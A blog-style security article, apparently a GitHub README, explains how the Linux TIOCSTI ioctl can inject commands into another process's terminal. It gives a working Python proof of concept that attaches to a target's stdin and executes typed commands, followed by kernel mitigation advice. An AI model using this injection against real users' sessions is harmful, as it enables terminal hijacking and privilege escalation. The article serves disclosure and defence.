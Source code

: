 **_Disclaimer:_** _You are free to use presented knowledge for educational purposes, with good intentions (penetration testing, ctf’s etc.), or not._ **_I am not responsible for anything you do._**

---

I wrote this article back in 2021, and it was available on my old website. Since 2022, there's a mitigation available, so I've decided to bring the article back and update it.

---

## The TIOCSTI interface abuse

### **Prerequisite:** root

> (Not always! This is a potential privilege escalation and lateral movement vector.)

Imagine that you could take control over processes' stdin. For example inject commands into someones shell, giving impression, that the shell has been took control over and is executing commands by itself.

How does one manage to affect the file descriptors of a process in such unsafe way?

[Dangerous interface - TIOCSTI.](https://undeadly.org/cgi?action=article;sid=20170701132619) 

A common use of this interface, is to control hardware devices. But it can be also used to inject commands into unsuspecting TTY's, even connected to other devices for example over SSH.

Proof of Concept: 
```python
import sys, os 
import termios, fcntl 

# specify tty
process = sys.argv[1]

# Open the process input file descriptor
fd = "/proc/" + process + "/fd/0" 
fd_handle = os.open(fd, os.O_RDWR) 

while True: 
  line = input(f"{fd} $ ") 
  for character in line: 
     fcntl.ioctl(fd_handle, termios.TIOCSTI, character)
  fcntl.ioctl(fd_handle, termios.TIOCSTI, '\x0d')
```

In the example above we are attaching to the process stdin, sending chars one by one, and then executing the command by sending the **'\x0d'** shell escape char.

### What is the result?

![Proof of Concept](images/poc.gif)

 > In summary, it is possible to transparently take control over a program descriptor using TIOCSTI.

## Mitigation:

TIOCSTI is a kernel problem.
https://jdebp.uk/FGA/TIOCSTI-is-a-kernel-problem.html

If you use BSD, you are safe, as this interface has been removed completely.
In case you use Linux, it is enabled by default, however, it is possible to disable it since 2022, Kernel version 6.2.

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=83efeeeb3d04b22aaed1df99bc70a48fe9d22c4d

Recompile your kernel with this setting as below:

```
CONFIG_LEGACY_TIOCSTI=n
```


Disabling this interface may result in programs relying on TIOCSTI to break.

If you wan't to continue using TIOCSTI, make sure to test if only privileged users are able to use it, and there are no vulnerable apps there to abuse it, **to prevent privilege escalation scenarios.**

Example privilege escalation:
https://vuldb.com/?id.223097

Stay safe!

K.
